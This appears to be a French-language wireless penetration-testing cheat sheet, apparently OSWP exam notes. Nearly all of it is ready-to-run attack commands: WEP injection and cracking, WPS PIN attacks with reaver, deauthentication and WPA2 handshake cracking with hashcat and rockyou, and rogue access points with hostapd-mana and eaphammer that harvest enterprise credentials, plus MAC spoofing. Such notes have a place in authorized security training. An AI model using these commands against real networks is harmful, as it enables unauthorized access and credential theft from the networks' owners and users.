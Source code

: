 
## OPN WIFI

### Configuration

```ini
network={
  ssid="wifi-guest"
  key_mgmt=NONE
  scan_ssid=1
}
```

### Connexion

```bash
sudo wpa_supplicant -i wlan1 -c guest.conf
sudo dhclient wlan1 -v
```

## WEP

### Injection de paquets et cracking

```bash
sudo aireplay-ng -1 3600 -q 10 -a F0:9F:C2:71:22:11 wlan1mon
sudo aireplay-ng --arpreplay -b F0:9F:C2:71:22:11 -h F0:9F:C2:71:22:11 wlan1mon
sudo aircrack-ng wifi-old-01.cap
```

### Configuration

```ini
network={
  ssid="wifi-old"
  key_mgmt=NONE
  wep_key0=11bb33cd55
  wep_tx_keyidx=0
}
```

## Attaque WPS

```bash
wash -i wlan0mon
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v -K # Pixie
-p # code pin vide
```

## WPA/WPA2

### Bruteforce Handshake

```bash
sudo airodump-ng wlan1mon --bssid F0:9F:C2:71:22:12 -w wap2.conf
sudo aireplay-ng -0 10 -a F0:9F:C2:71:22:12 wlan0mon -c 28:6C:07:6F:F9:44
aircrack-ng ~/wpa2.cap -w ~/rockyou-top100000.txt
```

### Usurper un point d'accès + WPA3

```bash
sudo airodump-ng -w discovery --output-format pcap wlan0mon
sudo hostapd-mana Mostar-mana.conf
sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan0mon
```

### Cracking WPA3

```bash
hashcat -a 0 -m 2500 hostapd.hccapx ~/rockyou-top100000.txt --force
hcxhash2cap --hccapx=hostapd.hccapx -c aux.pcap
hcxpcapngtool aux.pcap -o hash.22000
sudo hashcat -a 0 -m 22000 hash.22000 ~/rockyou.txt --force
```

### Connexion WPA/WPA2

```ini
network={
  ssid="wifi-wpa2"
  scan_ssid=1
  psk="PASSWORD"
  key_mgmt=WPA-PSK
}
```

## MGT Entreprise

### Extraction Certificat

```bash
# Wireshark
(wlan.sa == f0:9f:c2:71:22:15) && (tls.handshake.certificate)
# Export packet bytes : .der
openssl x509 -inform der -in cert.der -text
```

```bash
# Tshark
shark -r ~/wifi/scanc44-02.cap -Y "wlan.bssid == f0:9f:c2:71:22:15 && ssl.handshake.type == 11" -V
```

### Rogue AP

```bash
python3 ./eaphammer --cert-wizard
python3 ./eaphammer -i wlan3 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced
```

### Deauth

```bash
aireplay-ng -0 0 -a F0:9F:C2:71:22:1A wlan0mon -c 64:32:A8:BA:6C:41
```

### Connexion WPA Entreprise

```ini
network={  
  ssid="wifi-corp"  
  scan_ssid=1  
  key_mgmt=WPA-EAP  
  identity="CONTOSO\\juan.tr"  
  password="PASSWORD"  
  eap=PEAP  
  phase1="peaplabel=0"  
  phase2="auth=MSCHAPV2"  
}
```

```bash
sudo wpa_supplicant -i wlan5 -c mgt.conf
sudo dhclient wlan5
```

## AUTRES

### Modifier MAC

```bash
systemctl stop network-manager
ip link set wlan2 down
macchanger -m b0:72:bf:44:b0:49 wlan2
ip link set wlan2 up
```

### Redirection SSH

```bash
ssh -D 9090 user@192.168.1.68
FoxyProxy : socks5 9090
```

### Capture de trafic réseau

```bash
ssh user@192.168.1.68 "sudo tcpdump -i wlan2 -w -" > capture.pcap
```

### Curl

```bash
curl -L http://example.com
```

### Vérification du pilote

```bash
iw list
```

### Scanner les réseaux WiFi

```bash
iw dev <INTERFACE> scan | grep SSID:
iw dev <INTERFACE> scan | egrep "DS\ Parameter\ set|SSID"
```

## Liens utiles

- [Wireless Pentesting CheatSheet](https://github.com/V0lk3n/WirelessPentesting-CheatSheet)
- [OSWP Playbook](https://zeyadazima.com/notes/oswplaybook/)
- [Emmanuel Solis OSWP](https://www.emmanuelsolis.com/oswp.html)
